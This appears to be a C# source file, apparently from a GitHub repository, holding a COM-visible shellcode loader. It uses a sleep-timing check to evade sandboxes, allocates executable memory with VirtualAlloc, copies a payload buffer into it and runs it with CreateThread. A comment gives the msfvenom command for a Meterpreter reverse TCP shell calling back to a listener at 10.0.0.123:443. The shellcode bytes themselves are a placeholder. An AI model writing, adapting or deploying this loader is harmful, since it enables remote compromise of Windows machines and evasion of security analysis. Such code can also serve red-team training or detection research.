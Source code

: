 ```cs
using System;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    public const uint EXECUTEREADWRITE = 0x40;
    public const uint COMMIT_RESERVE = 0x3000;

    [DllImport("kernel32.dll")]
    static extern void Sleep(uint dwMilliseconds);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, uint flAllocationType, uint flProtect);

    [DllImport("Kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
    private unsafe static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, uint lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern Int32 WaitForSingleObject(IntPtr Handle, Int32 Wait);
    public TestClass()
    {
        DateTime t1 = DateTime.Now;
        Sleep(10000);
        double deltaT = DateTime.Now.Subtract(t1).TotalSeconds;
        if (deltaT < 9.5)
        {
            return;
        }

        // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.123 LPORT=443 -f csharp
        byte[] buf = new byte[510] { SHELLCODE_GO_HERE
            };

        int payloadSize = buf.Length;

        // Allocate executable memory
        IntPtr payAddr = VirtualAlloc(IntPtr.Zero, payloadSize, COMMIT_RESERVE, EXECUTEREADWRITE);

        // Copy shellcode to allocated memory
        Marshal.Copy(buf, 0, payAddr, payloadSize);

        // Execute shellcode
        IntPtr payThreadId = CreateThread(IntPtr.Zero, 0, payAddr, IntPtr.Zero, 0, 0);

        // wait for it to exit
        int waitResult = WaitForSingleObject(payThreadId, -1);
    }
}
```
